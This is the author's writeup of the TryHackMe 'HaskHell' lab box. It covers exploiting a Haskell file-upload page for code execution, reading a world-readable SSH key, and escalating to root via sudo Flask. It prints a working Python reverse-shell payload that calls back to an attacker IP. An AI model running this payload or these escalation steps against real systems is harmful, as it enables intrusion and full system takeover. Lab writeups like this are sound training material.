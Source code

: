 ```yaml
---
layout: default
title: "HaskHell Author's Writeup"
permalink: /HaskHell-Authors-Writeup
categories: haskell, tryhackme, haskhell
---
```


This is a brief writeup of the HaskHell box for the TryHackMe platform. You can find the box here: tryhackme.com/rooms/haskhell

This box was made as a medium-ish difficulty box with the intent of introducing users to a new programming language. I don't think that enough boxes showcase weird languages and I'm tired of cracking PHP web apps, so I wanted to do something with some truly weird functionality.

There are a few small snags along the way, but the box is pretty straightforward for the most part.

## Scanning
After scanning, you'll find that port 22 and port 5001 are open. Port 5001 is running a Gunicorn web server.

## The web server
The index of the web server is the home page for a functional programming course, and provides a link to the first homework assignment.
![First page](https://passthehashbrowns.github.io/images/first_page.png)

The first homework assignment contains a few problems, and provides a link to where students can submit their Haskell files. 
![Second page](https://passthehashbrowns.github.io/images/second_page.png)

Unfortunately, the professor included the wrong link and we get a 404.
![Upload page](https://passthehashbrowns.github.io/images/upload_page.png)

With a little more enumeration, we find that there's a Submit page. Looks like the professor just got his wires crossed.
![Dirb scan](https://passthehashbrowns.github.io/images/dirb_scan.png)

Once we navigate to the Submit page, we find a pretty basic file upload functionality.
![Submit page](https://passthehashbrowns.github.io/images/submit_page.png)

On a previous page, the professor noted that only Haskell files would be accepted for upload, because of a lesson learned previously. We can try uploading other types of files, but they won't be accepted. We have a few routes that we can take from here. The immediate thought that comes to mind is to try and use Haskell to interact with system processes. I've written a short piece of code to do just that.

The Python payload that I used is just the PentestMonkey Python one-liner expanded because of my own neurosis.

~~~python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.126.128",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
~~~

NOTE: I've had some users saying that the box is broken because they get an internal server error if there's an integer or special character in the file name. The box isn't broken, this was done on purpose because I didn't want to introduce an OS Command Injection into the machine and I decided to blacklist all non alpha characters except for the dot in the file extensionsince that's exactly how a lazy professor would do it. Totally not cause I'm lazy. You can see the code that causes this here:
![Server error code](https://passthehashbrowns.github.io/images/server_error.png)

Some TryHackMe users were more clever than me and were able to implement this in less lines and handle redirection. The reason the screenshot above uses wget to grab a Python file is that when you try to use createProcess with your standard BASH reverse shell, you get some weird issues with redirection. The solution to this was to use the callCommand function from the System.Process library. My solution was to wget a Python payload and then run it with another file upload. Since this is a Flask web server, we know that Python will be available to the web user.

However, I felt sort of weird that there was no existing reverse shell implementation in Haskell, so I went ahead and wrote my own. [You can find it here.](https://github.com/passthehashbrowns/Haskell-Reverse-Shell) Ironically, it doesn't work on this web server because of how the command is being run, but it does serve as a POC.

Anyways, using the Python payload, we can wget it and then run it.
![Python wget](https://passthehashbrowns.github.io/images/python_wget.png)

Now we get our callback as the flask user.
![Reverse shell catch](https://passthehashbrowns.github.io/images/rev_shell_callback.png)

## Escalating to prof
My preferred Linux enumeration tool is LinPEAS, but whatever tool you use should catch that the prof user's SSH key is world readable.
![LinPEAS SSH key](https://passthehashbrowns.github.io/images/linpeas_ssh_key.png)

Now we can SSH into the server by doing a quick chmod to give our key either 400 or 600 permissions. Once in the server as prof, we'll find that we can run Flask with sudo rights. The other thing that should stand out is that FLASK_APP is in the env_keep entry. This was necessary when building the box as the user needs to be able to set the FLASK_APP variable for later.
![Sudo enumeration](https://passthehashbrowns.github.io/images/sudo_enum.png)

Using Flask we can use the exact same Python payload as before and catch our root shell.
![Flask run](https://passthehashbrowns.github.io/images/flask_run.png)
![Catch root shell](https://passthehashbrowns.github.io/images/catch_root_shell.png)

Hopefully you enjoyed this box, I learned a few things making it and plan on making more in the future.


